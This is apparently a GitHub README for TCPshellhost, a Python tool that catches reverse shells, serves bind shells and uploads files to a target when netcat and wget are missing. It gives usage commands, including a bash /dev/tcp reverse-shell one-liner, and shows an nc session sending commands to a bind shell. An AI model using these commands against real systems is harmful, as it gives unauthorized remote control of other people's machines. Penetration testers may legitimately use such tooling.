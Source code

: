 # TCPshellhost

This project came about while I was working on a machine without netcat, wget, basically anything useful. I then set about creating a server that would give the functionality of the aforementioned. Namely I was interested in getting reverse shells, bind shells, and transferring files to the machine. I was successful in my endeavors and would like to share the results.

# Usage
## Reverse Shell
The original purpose was simply a listening server to catch reverse shells, so this functionality is the simplest

  ```powershell
  #create a listener on 0.0.0.0 port 1234
  $ python3 TCPshellhost.py -p 1234
  ```
  
Of course this merely listens, the target machine must also get involved:

  ```powershell
  #here we can send stdin/out to 127.0.0.1 which must be listening on port 1234
  $ bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
  ```
Once the shell is established the host machine can issue commands in the target shell's language.
An added feature I created is sending files to the target machine:

  ```powershell
  [+] Listening on <0.0.0.0:4444>
  [+] Got connection form <192.168.1.20:38780>
  #now we are free to download files on 192.168.1.20 from host
  root@payload$ download /path/to/file ./CopyOfFile
  ```
 The download feature reads the file bitwise and transfers hex to the target machine which is then written to file using "echo -n -e"
 
 ## Bind Shell
The last feature to be added was the ability to create a bind shell. Obviously in this instance the target machine must run the script. If this is the only purpose for the script one can in fact gut most of the code (all of the Shell class, all but the listener and bind_recieve function in the Socket class can be removed).
On the target machine run:

```powershell
$ python3 TCPshellhost.py -p 4444 -b
```
This will begin listening, waiting on commands to be entered, stdout will then by sent back. We can issue commands from another machine with TCPshellhost as follows:

```powershell
#the machine listening is assumed to have the ip form earlier
$ python3 TCPshellhost.py -p 4444 -H 192.168.1.20 -c
pwd
/home/user
```
One doesn't have to use TCPshellhost to send commands, any shell host should agree with the interface. For instance we should see the same results with:
```powershell
$ nc 192.168.1.20 4444
pwd
/home/user
```

# Testing
This script was developed on Ubuntu 20.04. The majority of the connections tested were between this machine and VMs running Arch and Debian. NetBSD and OpenBSD have been seen to work as well as a single reverse shell obtained on an instance of Windows Server 2008 R2.
